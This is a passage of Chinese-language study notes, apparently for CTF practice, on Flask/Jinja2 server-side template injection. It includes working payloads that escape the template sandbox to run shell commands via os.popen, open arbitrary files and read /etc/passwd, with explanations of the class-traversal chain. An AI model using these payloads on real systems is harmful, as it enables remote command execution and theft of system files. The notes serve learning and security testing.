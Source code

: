 

py3:


#命令执行：


```plain
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
Plain Text
```



（py2包含的类py3一般都有，但是位置顺序不太一样，然后就是调用格式确实不太一样）


这里以py2为例：


flask函数解析：


```plain
__class__ 返回调用的参数类型
__bases__ 返回类型列表
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
Plain Text
```



{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}（如果还记得的话{{}}是输出的意思）


所以这句话的逻辑是什么呢？


创建一个空字符，返回它的参数类型，寻找基类，找子类，选取第40个子类，调用其中的read函数。这也是一条逻辑链，flask的模板注入的核心就是这条逻辑链。或者被称之为沙盒逃逸：创建一个相对封闭的python沙盒环境，然后从某个位置开始找到最顶层，然后一步一步向下摸索，最后从沙箱中逃逸出去。

## FLASK流程

也可以叫小payload，下次找个基础点的，没过滤的题，可以好好试试。


```plain
函数解析
__class__ 返回调用的参数类型__bases__ 返回类型列表__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组__subclasses__() 返回object的子类__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
Plain Text
```



```plain
获取基本类:
''.__class__.__mro__[2]//mro找的会比base快作用类似
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8]//针对jinjia2/flask为[9]适用
Plain Text
```
